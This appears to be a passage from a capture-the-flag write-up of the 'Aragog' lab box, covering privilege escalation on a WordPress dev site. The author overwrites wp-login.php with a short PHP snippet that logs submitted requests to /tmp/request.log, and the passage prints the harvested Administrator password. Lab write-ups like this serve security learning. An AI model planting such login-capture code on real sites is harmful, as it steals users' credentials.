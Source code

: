 ## Privilege Escalation

After grabbing the `user.txt` flag we now need to escalate to root. If we look into the web root we see a couple interesting folders.

```
florian@aragog:/var/www/html$ ls -al
total 32
drwxrwxrwx 4 www-data www-data  4096 Feb 19 12:05 .
drwxr-xr-x 3 root     root      4096 Dec 18 16:36 ..
drwxrwxrwx 5 cliff    cliff     4096 Feb 19 12:05 dev_wiki
-rw-r--r-- 1 www-data www-data   689 Dec 21 15:31 hosts.php
-rw-r--r-- 1 www-data www-data 11321 Dec 18 16:36 index.html
drw-r--r-- 5 cliff    cliff     4096 Dec 20 16:17 zz_backup
```

First we see `dev_wiki` which seems to be a hidden WordPress site. We also have `zz_backup` which is a backup of that site. After browsing the hidden site we are presented with the following:

![wiki](/img/aragog-wiki.png)

So Cliff is telling us two things: he's logging in frequently and there's a restore of the site happening as well.

If we look in the webroot we can see that the timestamps on `dev_wiki` and its contents are changing every five minutes. My first thought here was maybe some wildcard injection (see Joker writeup), but after thinking on it, nothing really seemed to be viable even if there were wildcards in the restore script being ran. So it seems that trying to hijack the restore job is probably a dead end.

However we do know that Cliff is logging in frequently. This would mean he's hitting the `wp-login.php` file frequently. What we can do is replace the contents of this file with some PHP code to catch his request and see what login and password he is submitting.

We can do this from some code I found on Stack Overflow.

```
florian@aragog:/var/www/html$ cat dev_wiki/wp-login.php 
<?php
$req_dump = print_r($_REQUEST, TRUE);
$fp = fopen('/tmp/request.log', 'a');
fwrite($fp, $req_dump);
fclose($fp);
?>

```

Now that our page is setup, we wait for our log file to be written. 

```
florian@aragog:/var/www/html$ cat /tmp/request.log 
Array
(
    [pwd] => !KRgYs(JFO!&MTr)lf
    [wp-submit] => Log In
    [testcookie] => 1
    [log] => Administrator
    [redirect_to] => http://127.0.0.1/dev_wiki/wp-admin/
)

```

